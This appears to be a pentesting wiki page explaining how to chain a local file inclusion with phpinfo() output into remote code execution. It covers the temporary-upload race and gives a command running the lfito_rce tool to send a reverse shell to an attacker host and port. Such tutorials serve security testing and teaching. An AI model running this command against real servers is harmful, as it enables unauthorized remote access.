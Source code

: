 # PHPInfo

## Theory

When `file_uploads=on` is set in the PHP configuration file, it is possible to upload a file by POSTing it on any PHP file ([RFC1867](https://www.ietf.org/rfc/rfc1867.txt)). This file is put to a temporary location on the server and deleted after the HTTP request is fully processed.

The aim of the attack is to POST a PHP reverse shell on the server and delay the processing of the request by adding very long headers to it. This gives enough time to find out the temporary location of the reverse shell using the output of the `phpinfo()` function and including it via the LFI before it gets removed. See the [insomnia researche paper](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf) for more details

{% hint style="info" %}
The prerequisites for this method are :&#x20;

* having `file_uploads=on` set in the PHP configuration file
* having access to the output of the `phpinfo()` function
{% endhint %}

## Practice

We can use the [lfito\_rce](https://github.com/roughiz/lfito\_rce) to exploit it

```bash
#There is no requirements.txt, the dependencies have to be installed manually
python2.7 lfito_rce.py -l "http://$URL/?page=" --lhost=$attackerIP --lport=$attackerPORT -i "http://$URL/phpinfo.php"
```

## Resources

{% embed url="https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/phpinfo" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo" %}
